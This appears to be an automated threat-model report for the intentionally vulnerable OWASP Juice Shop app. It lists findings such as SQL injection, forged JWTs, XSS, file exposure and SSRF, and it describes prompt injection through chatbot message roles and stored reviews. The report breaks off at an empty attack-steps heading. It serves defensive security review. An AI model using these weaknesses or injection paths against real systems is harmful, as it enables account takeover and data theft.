| <a id="path-auth-bypass"></a>④ | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>A committed signing key and unpinned token verification allow forged session tokens that the server accepts as any user. | → [C-09](#c-09) Authentication & Session Surface<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-048" title="Hardcoded JWT signing key and HMAC secrets">F-048</a></span>, <span style="white-space:nowrap"><a href="#f-018" title="Non-cryptographic RNG for a secret/token">F-018</a></span>, <span style="white-space:nowrap"><a href="#f-020" title="Insecure JWT Verification">F-020</a></span>, <span style="white-space:nowrap"><a href="#f-047" title="Unsalted MD5 password hashing and no strength policy">F-047</a></span><br/>→ [C-01](#c-01) Juice Shop Express Server<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-043" title="Password verification relies on unsalted MD5">F-043</a></span><br/>→ [C-02](#c-02) Sequelize application data access<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-045" title="Passwords hashed with unsalted MD5 in User model setter">F-045</a></span><br/><details><summary>2 Medium</summary>→ [C-09](#c-09) Authentication & Session Surface<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-078" title="JWT verification does not pin an algorithm">F-078</a></span><br/>→ [C-01](#c-01) Juice Shop Express Server<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-071" title="Chatbot trusts unverified JWT payload for identity">F-071</a></span></details> | 🟠 High<br/>Full Admin Takeover · Customer Session Hijack | <span style="white-space:nowrap">◕ [M-038](#m-038)</span> - Use cryptographically secure random values<br/><span style="white-space:nowrap">● [M-091](#m-091)</span> - Pin RS256 in every token verification call<br/><span style="white-space:nowrap">● [M-065](#m-065)</span> - Move secrets to a managed secret store |
| <a id="path-sensitive-data-exposure"></a>⑤ | **Sensitive File & Secret Exposure** _(I)_<br/>Unauthenticated routes and path handling flaws expose encryption keys, logs and server files to remote callers. | → [C-01](#c-01) Juice Shop Express Server<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-023" title="Arbitrary server file read">F-023</a></span>, <span style="white-space:nowrap"><a href="#f-039" title="Unauthenticated key and log file exposure">F-039</a></span>, <span style="white-space:nowrap"><a href="#f-058" title="Encryption keys and logs served without authorization">F-058</a></span>, <span style="white-space:nowrap"><a href="#f-024" title="Zip entry path traversal on complaint upload">F-024</a></span>, <span style="white-space:nowrap"><a href="#f-044" title="Server-side request forgery in profile">F-044</a></span><br/>→ [C-09](#c-09) Authentication & Session Surface<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-046" title="Password reset response returns full user record">F-046</a></span><br/><details><summary>11 Medium</summary>→ [C-01](#c-01) Juice Shop Express Server<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-096" title="Null byte bypasses FTP file type allow-list">F-096</a></span>, <span style="white-space:nowrap"><a href="#f-098" title="Null byte bypass of file type allowlist">F-098</a></span>, <span style="white-space:nowrap"><a href="#f-099" title="Unauthenticated memories list returns user records">F-099</a></span>, <span style="white-space:nowrap"><a href="#f-100" title="Unauthenticated application configuration endpoint">F-100</a></span>, <span style="white-space:nowrap"><a href="#f-105" title="Log files served to any caller">F-105</a></span>, <span style="white-space:nowrap"><a href="#f-106" title="Encryption keys folder listed and served publicly">F-106</a></span><br/>→ [C-09](#c-09) Authentication & Session Surface<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-079" title="Redirect allowlist bypass">F-079</a></span>, <span style="white-space:nowrap"><a href="#f-114" title="User listing exposes sensitive fields to any">F-114</a></span><br/>→ [C-02](#c-02) Sequelize application data access<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-111" title="Card numbers and TOTP secrets stored unencrypted">F-111</a></span><br/>→ [C-07](#c-07) Real-time WebSocket Channel<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-113" title="Challenge flags replayed to every connecting">F-113</a></span><br/>→ [C-04](#c-04) Web3 / Wallet / NFT Surface<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-123" title="Open redirect">F-123</a></span></details> | 🟠 High<br/>Customer Data Exfiltration | <span style="white-space:nowrap">◕ [M-043](#m-043)</span> - Constrain file paths to a safe base directory<br/><span style="white-space:nowrap">◕ [M-072](#m-072)</span> - Restrict key and log routes to administrators<br/><span style="white-space:nowrap">◕ [M-063](#m-063)</span> - Return minimal fields from password reset |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting** _(T·I)_<br/>Bypassed output sanitising lets attacker script run in a victim's browser, where the session token is readable. | → [C-05](#c-05) Angular Frontend<br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-001" title="Angular sanitizer bypass causes XSS in about, search, administration">F-001</a></span>, <span style="white-space:nowrap"><a href="#f-003" title="JWT Stored in Script-Readable Storage">F-003</a></span><br/>→ [C-02](#c-02) Sequelize application data access<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-087" title="Model setters skip HTML sanitization on challenge branch">F-087</a></span><br/><details><summary>3 Medium</summary>→ [C-05](#c-05) Angular Frontend<br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-093" title="User emails rendered as trusted HTML in admin">F-093</a></span>, <span style="white-space:nowrap"><a href="#f-094" title="DOM XSS">F-094</a></span>, <span style="white-space:nowrap"><a href="#f-095" title="Stored XSS risk from trusted product">F-095</a></span></details> | 🟠 High<br/>Customer Session Hijack | <span style="white-space:nowrap">◕ [M-030](#m-030)</span> - Store session tokens in HttpOnly, Secure cookies<br/><span style="white-space:nowrap">◕ [M-028](#m-028)</span> - Encode output instead of bypassing the framework sanitizer |

**Further threats without Critical or High findings:** CSRF / Permissive CORS (🟡 2) · Build Pipeline & Dependency Integrity (🟡 8). Their findings are in the [§8 Findings Register](#8-findings-register).

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and primary measures are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 9 fully viable ([AC-B-002](#ac-b-002), [AC-T-004](#ac-t-004), [AC-B-003](#ac-b-003), [AC-B-007](#ac-b-007), [AC-B-001](#ac-b-001), [AC-B-005](#ac-b-005), [AC-T-007](#ac-t-007), [AC-T-005](#ac-t-005), [AC-T-003](#ac-t-003)); 1 partially blocked ([AC-T-002](#ac-t-002)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### AI / LLM Exposure

This system embeds an LLM/AI surface (an LLM/AI integration); the risks below are architectural - they follow from how untrusted input reaches the model's prompt, tools, and outputs. See **[§6 Security Architecture](#6-security-architecture)** for the per-control detail.


- **[LLM01](https://genai.owasp.org/llmrisk/llm01/) Prompt Injection** — Untrusted user input reaches the LLM prompt/context without sufficient trust separation, letting an attacker override system instructions, redirect tool calls, or coerce unintended model behaviour. _([C-01](#c-01) — Juice Shop Express Server)_
  - ↳ 🟠 [F-038](#f-038) — Chatbot accepts client-supplied message roles and history _([ASI01](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/))_
  - ↳ 🟠 [F-065](#f-065) — Chatbot coupon tool lacks server-side authorization _([ASI02](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/))_
  - ↳ 🟡 [F-086](#f-086) — Stored reviews and username reach chatbot context as instructions _([ASI01](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/), [ASI06](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/))_

- **[LLM06](https://genai.owasp.org/llmrisk/llm06/) Excessive Agency** — The LLM is granted tool/function-calling authority without a secondary authorization boundary, so a manipulated model turn can invoke privileged actions on the user's behalf. _([C-01](#c-01) — Juice Shop Express Server)_
  - ↳ 🟠 [F-065](#f-065) — Chatbot coupon tool lacks server-side authorization _([ASI02](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/))_
  - ↳ 🟡 [F-071](#f-071) — Chatbot trusts unverified JWT payload for identity
  - ↳ 🟡 [F-117](#f-117) — Chatbot coupon tool accepts unbounded discount _([ASI02](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/))_

- **[LLM10](https://genai.owasp.org/llmrisk/llm10/) Unbounded Consumption** — The LLM endpoint imposes no authentication, rate, or quota boundary, so any client can drive unbounded model invocations — uncontrolled provider cost and denial of service for legitimate users. _([C-01](#c-01) — Juice Shop Express Server)_
  - ↳ 🟠 [F-049](#f-049) — Chat endpoint has no request or consumption limits

- **[LLM05](https://genai.owasp.org/llmrisk/llm05/) Improper Output Handling** — LLM-generated output flows into a downstream sink (browser, shell, query, eval) without validation or encoding, turning a model completion into an injection vector. _([C-01](#c-01) — Juice Shop Express Server)_
  - ↳ 🟡 [F-117](#f-117) — Chatbot coupon tool accepts unbounded discount _([ASI02](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/))_

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§6](#6-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§6](#6-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="20%" style="width:20%"><col width="33%" style="width:33%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:break-word"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Container image build hardening</td><td style="overflow-wrap:break-word">✅ Adequate</td></tr>
<tr><td style="overflow-wrap:break-word"><strong>Observability &amp; Audit</strong></td><td style="overflow-wrap:break-word"><em>Runtime visibility - access logging, audit trails, and operational telemetry for post-incident review.</em><br/>HTTP access logging<br/>SQLite concurrency retry and transaction mode</td><td style="overflow-wrap:break-word">⚠️ Partial - Coverage incomplete - see <a href="#6-security-architecture">§6</a> control assessment.</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a><a id="critical-findings-by-root-cause"></a>
## Critical Findings by Root Cause

4 of 4 Critical findings trace back to 3 root causes; fixing a root cause addresses every finding linked to it.



**Structural fixes** (full detail in [§7 Weakness Register](#7-weakness-register)):

- **[W-001](#w-001)** — Replace evaluation of application values with a data parser or a fixed set of operations whose arguments remain data _(closes [F-012](#f-012))_
- **[W-002](#w-002)** — Provide one parameterised repository or query-builder path and prohibit application-value interpolation in database queries _(closes [F-004](#f-004), [F-011](#f-011))_
- **[W-007](#w-007)** — Enforce authorization through a shared server-side policy layer and make ownership and tenant scope mandatory inputs to data access _(closes [F-010](#f-010))_

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** `https://github.com/juice-shop/juice-shop.git`
**Runtime:** Node\.js 22 - 26

### Scope

This threat model covers 9 components of juice-shop: 

- Juice Shop Express Server
- Sequelize application data access
- CI/CD Pipeline
- Web3 / Wallet / NFT Surface
- Angular Frontend
- MarsDB Embedded Store
- Real-time WebSocket Channel
- SQLite Embedded Store
- Authentication & Session Surface

**Not individually examined:** 131 source files in 5 components had no route, lead or security signal (Juice Shop Express Server 3, Sequelize application data access 12, CI/CD Pipeline 4, Angular Frontend 109, MarsDB Embedded Store 3).

**Not analysed:** 92 TypeScript files the build leaves out, so their routes and code sites were not checked (`data/static/codefixes/accessLogDisclosureChallenge_1_correct.ts`, `data/static/codefixes/accessLogDisclosureChallenge_2.ts`, `data/static/codefixes/accessLogDisclosureChallenge_3.ts`, `data/static/codefixes/accessLogDisclosureChallenge_4.ts`, `data/static/codefixes/adminSectionChallenge_1_correct.ts`, `data/static/codefixes/adminSectionChallenge_2.ts`, `data/static/codefixes/adminSectionChallenge_3.ts`, `data/static/codefixes/adminSectionChallenge_4.ts`, `data/static/codefixes/changeProductChallenge_1.ts`, `data/static/codefixes/changeProductChallenge_2.ts` and 82 more).

**Not assessed:** 1 security-relevant code location was read but could not be judged (Angular Frontend 1); `security-assessment.yaml` records each with its reason under `meta.undecided_targets`.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

**Basis:** An automated, AI-assisted threat model built from the repository's source code and configuration - static analysis only, no dynamic or penetration testing. It describes the system as built, not as designed.

---

<a id="identified-actors"></a>
### Identified Actors

Figure 1a draws **Internet Attacker** as attacker and **Juice Shop User** and **Juice Shop Admin** as legitimate roles of Juice Shop. [Figure 1b](#figure-1b) draws **Supply-Chain / Build Attacker** and the build it attacks. Each row gives that actor's access and the findings attributed to it.

| Actor | Type | Access | Findings |
|----------------------|---------------|----------------------|-----------------|
| Internet Attacker | Attacker | Can self-register a regular account | 🔴 4 · 🟠 51 · 🟡 44 |
| Supply-Chain / Build Attacker | Attacker | Compromises a dependency or build pipeline,<br/>or contributes malicious code to a public<br/>repo | 🟡 8 |
| Juice Shop User | Role (victim) | Person using the client application,<br/>evidenced by its browser entry point. | - |
| Juice Shop Admin | Privileged role | Application role with elevated rights. | - |

3 findings (1 High, 2 Medium) have no assigned actor. That does not mean they are out of reach.

---

### Trust Boundaries

Each row names a crossing and the condition it relies on. A modelled crossing does not prove that its control works.

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="20%" style="width:20%"><col width="25%" style="width:25%"><col width="21%" style="width:21%"><col width="34%" style="width:34%"></colgroup>
<thead><tr><th>Crossing</th><th>Required condition</th><th>Control</th><th>Status and findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a id="tb-1"></a>tb-1 · External → Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word">A JWT is issued only after the password and, where enrolled, the TOTP code are verified for that account.</td><td style="overflow-wrap:break-word">Login credential and TOTP verification</td><td style="overflow-wrap:break-word"><strong>Gap:</strong> <em>Validation</em><br/>🔴 <a href="#f-011">F-011</a> — SQL injection in login credential query</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-9"></a>tb-9 · Juice Shop Express Server → external</td><td style="overflow-wrap:break-word">Only intended challenge-solved data is sent to the configured <code>SOLUTIONS_WEBHOOK</code> destination.</td><td style="overflow-wrap:break-word">Not identified</td><td style="overflow-wrap:break-word"><strong>Gap:</strong> <em>Egress destination</em><br/>🟠 <a href="#f-044">F-044</a> — Server-side request forgery in profile</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-2"></a>tb-2 · External → Juice Shop Express Server</td><td style="overflow-wrap:break-word">Every state-changing or user-scoped <code>/api</code> and <code>/rest</code> route is registered behind <code>security.<wbr>isAuthorized()</code> or <code>denyAll()</code>.</td><td style="overflow-wrap:break-word"><code>security.<wbr>isAuthorized()</code> <code>expressJwt</code> middleware</td><td style="overflow-wrap:break-word"><strong>Unverified:</strong> 71 related findings</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-5"></a>tb-5 · External → Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word">Every account-recovery and login-IP route authenticates and authorizes the caller before acting on a user record.</td><td style="overflow-wrap:break-word">Not identified</td><td style="overflow-wrap:break-word"><strong>Unverified:</strong> 14 related findings</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-6"></a>tb-6 · External → CI/CD Pipeline<br/>Crossing: inferred</td><td style="overflow-wrap:break-word">Every third-party action and dependency used by workflows resolves to a pinned, reviewed version.</td><td style="overflow-wrap:break-word">SHA-pinned action references</td><td style="overflow-wrap:break-word"><strong>Unverified:</strong> 8 related findings</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-4"></a>tb-4 · External → Real-time WebSocket Channel</td><td style="overflow-wrap:break-word">Only the configured origin can open Socket.IO sessions and event payloads are treated as untrusted.</td><td style="overflow-wrap:break-word">Socket.IO cors origin option</td><td style="overflow-wrap:break-word"><strong>Unverified:</strong> 3 related findings</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-3"></a>tb-3 · External → Web3 / Wallet / NFT Surface</td><td style="overflow-wrap:break-word">Web3 key and NFT status routes only act on caller-supplied data after it is validated and the caller is authenticated.</td><td style="overflow-wrap:break-word">Not identified</td><td style="overflow-wrap:break-word"><strong>Unverified:</strong> 2 related findings</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-7"></a>tb-7 · Juice Shop Express Server → MarsDB Embedded Store</td><td style="overflow-wrap:break-word">Data from review and order requests never becomes a MarsDB query operator or program text.</td><td style="overflow-wrap:break-word">Not identified</td><td style="overflow-wrap:break-word"><strong>No gap shown,</strong> control not confirmed</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-8"></a>tb-8 · Sequelize application data access → SQLite Embedded Store</td><td style="overflow-wrap:break-word">Every query reaches SQLite through Sequelize parameter binding.</td><td style="overflow-wrap:break-word">Sequelize parameter binding</td><td style="overflow-wrap:break-word"><strong>No gap shown,</strong> control not confirmed</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-10"></a>tb-10 · Juice Shop Express Server → external</td><td style="overflow-wrap:break-word">Nothing attacker-controlled or confidential reaches the LLM provider unfiltered.</td><td style="overflow-wrap:break-word">Not identified</td><td style="overflow-wrap:break-word"><strong>No gap shown,</strong> control not confirmed</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-11"></a>tb-11 · Web3 / Wallet / NFT Surface → external</td><td style="overflow-wrap:break-word">Event payloads from the RPC provider are treated as untrusted input before they mark a challenge solved.</td><td style="overflow-wrap:break-word"><code>Contract.on</code> event handler membership checks</td><td style="overflow-wrap:break-word"><strong>No gap shown,</strong> control not confirmed</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="tb-12"></a>tb-12 · Angular Frontend → external</td><td style="overflow-wrap:break-word">The access token returned by Google is only accepted for the intended client and not leaked via URL.</td><td style="overflow-wrap:break-word">Not identified</td><td style="overflow-wrap:break-word"><strong>No gap shown,</strong> control not confirmed</td></tr>
</tbody>
</table>

Crossing types, source evidence and provenance are retained in `security-assessment.yaml`.

---

### Platform Security Settings

Settings of the hosting platform at check time, not of the examined source revision. `set` means configured, not effective. `not checkable` means unknown, not missing protection.

Repository selection 1: skipped (local repository; supply a GitHub or GitLab URL to check its platform settings).

---

## 2. Architecture Diagrams

### 2.1 System Context

Who uses and attacks Juice Shop, and which external systems it exchanges data with. Solid arrows name the data a flow carries; dashed red arrows are attack routes. Actors carry the names Figure 1 uses (C4 Level 1).



**Key takeaway:** Juice Shop serves Juice Shop User and Juice Shop Admin and depends on Configured solutions webhook, Requester-chosen image URL host, Ethereum Sepolia RPC provider, Configured chatbot LLM provider and Identity provider · accounts.google.com; Internet Attacker and Supply-Chain / Build Attacker attack it.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



*Trust boundaries not drawn above: Juice Shop Express Server → MarsDB Embedded Store (tb-7), Sequelize application data access → SQLite Embedded Store (tb-8), Juice Shop Express Server → external (tb-9, tb-10), Web3 / Wallet / NFT Surface → external (tb-11), +2 more - every boundary is listed in [§1 Trust Boundaries](#trust-boundaries).*

**Key takeaway:** The system decomposes into 1 client, 5 application and 2 data unit(s); Juice Shop Express Server carries the most Critical findings (3) and bounds the worst-case blast radius. The build plane (CI/CD Pipeline) is shown in [Figure 1b](#figure-1b).

### 2.3 Components

How many findings hit each component, which of its controls are weakest, and which findings matter most. Evidence is in the [§8 Findings Register](#8-findings-register).

<!-- detail-table -->
<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="43%" style="width:43%"><col width="7%" style="width:7%"><col width="7%" style="width:7%"><col width="7%" style="width:7%"><col width="36%" style="width:36%"></colgroup>
<thead><tr><th>Component</th><th>🔴</th><th>🟠</th><th>🟡</th><th>Weakest controls and top findings</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><a id="c-01"></a><a id="component-191fd03d5dfa5985"></a><strong>C-01 · Juice Shop Express Server</strong><br/>Mostly in <code>routes/</code></td><td style="overflow-wrap:break-word">3</td><td style="overflow-wrap:break-word">38</td><td style="overflow-wrap:break-word">30</td><td style="overflow-wrap:break-word">🟠 Weak: Input / query, Secrets / crypto, Supply chain<br/>Top findings: <span style="white-space:nowrap"><a href="#f-004">F-004</a></span> · <span style="white-space:nowrap"><a href="#f-012">F-012</a></span> · <span style="white-space:nowrap"><a href="#f-010">F-010</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-09"></a><a id="component-dff0840e0f4855be"></a><strong>C-09 · Authentication &amp; Session Surface</strong></td><td style="overflow-wrap:break-word">1</td><td style="overflow-wrap:break-word">10</td><td style="overflow-wrap:break-word">4</td><td style="overflow-wrap:break-word">🔴 Unsafe: AuthN<br/>🟠 Weak: Secrets / crypto<br/>Top findings: <span style="white-space:nowrap"><a href="#f-011">F-011</a></span> · <span style="white-space:nowrap"><a href="#f-048">F-048</a></span> · <span style="white-space:nowrap"><a href="#f-018">F-018</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-05"></a><a id="component-6ffaf23414c56207"></a><strong>C-05 · Angular Frontend</strong><br/>Mostly in <code>frontend/<wbr>src/<wbr>app/</code></td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">4</td><td style="overflow-wrap:break-word">5</td><td style="overflow-wrap:break-word">Top findings: <span style="white-space:nowrap"><a href="#f-017">F-017</a></span> · <span style="white-space:nowrap"><a href="#f-003">F-003</a></span> · <span style="white-space:nowrap"><a href="#f-001">F-001</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-02"></a><a id="component-290ae722e9565831"></a><strong>C-02 · Sequelize application data access</strong><br/>Mostly in <code>models/</code></td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">1</td><td style="overflow-wrap:break-word">2</td><td style="overflow-wrap:break-word">🟠 Weak: Secrets / crypto<br/>Top findings: <span style="white-space:nowrap"><a href="#f-045">F-045</a></span> · <span style="white-space:nowrap"><a href="#f-087">F-087</a></span> · <span style="white-space:nowrap"><a href="#f-111">F-111</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-03"></a><a id="component-31ebe1b93ddf60d5"></a><strong>C-03 · CI/CD Pipeline</strong><br/>Mostly in <code>.github/<wbr>workflows/</code></td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">8</td><td style="overflow-wrap:break-word">🟡 Partial: Supply chain<br/>Top findings: <span style="white-space:nowrap"><a href="#f-088">F-088</a></span> · <span style="white-space:nowrap"><a href="#f-089">F-089</a></span> · <span style="white-space:nowrap"><a href="#f-090">F-090</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-07"></a><a id="component-8c3a32ee53769307"></a><strong>C-07 · Real-time WebSocket Channel</strong><br/>Mostly in <code>lib/<wbr>startup/</code></td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">3</td><td style="overflow-wrap:break-word">Top findings: <span style="white-space:nowrap"><a href="#f-076">F-076</a></span> · <span style="white-space:nowrap"><a href="#f-113">F-113</a></span> · <span style="white-space:nowrap"><a href="#f-116">F-116</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-04"></a><a id="component-6ffadbc3868c2a3b"></a><strong>C-04 · Web3 / Wallet / NFT Surface</strong><br/>Mostly in <code>routes/</code></td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">2</td><td style="overflow-wrap:break-word">Top findings: <span style="white-space:nowrap"><a href="#f-074">F-074</a></span> · <span style="white-space:nowrap"><a href="#f-123">F-123</a></span></td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-06"></a><a id="component-790db1fed70651aa"></a><strong>C-06 · MarsDB Embedded Store</strong></td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">🔴 Missing: AuthZ</td></tr>
<tr><td style="overflow-wrap:break-word"><a id="c-08"></a><a id="component-b213d5ab01236933"></a><strong>C-08 · SQLite Embedded Store</strong></td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">🟠 Weak: Secrets / crypto</td></tr>
<tr><td style="overflow-wrap:break-word">System-wide: evidence not tied to one component</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">–</td><td style="overflow-wrap:break-word">🔴 Unsafe: AuthN<br/>🔴 Missing: Supply chain<br/>🟠 Weak: Session, AuthZ, Input / query</td></tr>
</tbody>
</table>

*🔴 **Unsafe**: relied upon but defeated or trivially bypassable - fix it · 🔴 **Missing**: never built - add it · 🟠 **Weak**: present, with exploitable gaps · 🟡 **Partial**: covers some surfaces, meaningful gaps remain · 🟢 **Adequate**: present and sound. A control counts for the component whose paths hold its implementation evidence. A finding counts for every component it affects, so the columns can add up to more than the register. [§6](#6-security-architecture) holds the full assessment.*

**Key takeaway:** 2 components have at least one control rated Unsafe or Missing (C-06, C-09); 3 components have no component-specific control (C-04, C-05, C-07); 14 controls apply system-wide.

> **Legend:** `-->` synchronous request/response (REST, HTTPS, gRPC) · `-.->` asynchronous / event-driven (WebSocket, queue, pub-sub) · **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. Which root cause each Critical traces back to is in [Critical Findings by Root Cause](#critical-findings-by-root-cause); full per-finding context (severity rationale, assets, detection signals) is in the [§8 Findings Register](#8-findings-register).

### 3.1 SQL injection in product search

**Source:** 🔴 [F-004](#f-004) — `routes/search.ts:23`

Severity 🔴 Critical ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

